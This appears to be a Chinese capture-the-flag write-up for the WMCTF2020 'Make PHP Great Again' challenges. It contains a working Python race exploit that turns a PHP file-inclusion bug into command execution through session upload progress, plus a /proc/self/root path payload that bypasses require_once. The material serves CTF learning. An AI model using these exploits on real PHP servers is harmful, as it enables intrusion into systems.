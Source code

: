 ```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

**session文件上传**

```python
import io
import requests
import threading
url = 'http://67a4be62-5e13-4f32-899d-251246949d4d.node4.buuoj.cn:81/'

def write(session):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac f*");?>xl'
    }
    while True:
        f = io.BytesIO(b'a' * 1024 * 10)
        response = session.post(url,cookies={'PHPSESSID': 'flag'}, data=data, files={'file': ('xl.txt', f)})
def read(session):
    while True:
        response = session.get(url+'?file=/tmp/sess_flag')
        if 'xl' in response.text:
            print(response.text)
            break
        else:
            print('retry')

if __name__ == '__main__':
    session = requests.session()
    write = threading.Thread(target=write, args=(session,))
    write.daemon = True
    write.start()
    read(session)
```

但很明显这是非预期，考点是 **利用 /proc 目录绕过包含限制**

于是就有了下面这题

## [WMCTF2020]Make PHP Great Again 2.0

[php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)

**payload**

```php
http://f9fd1d96-9550-4095-99f5-49167eda6d07.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```
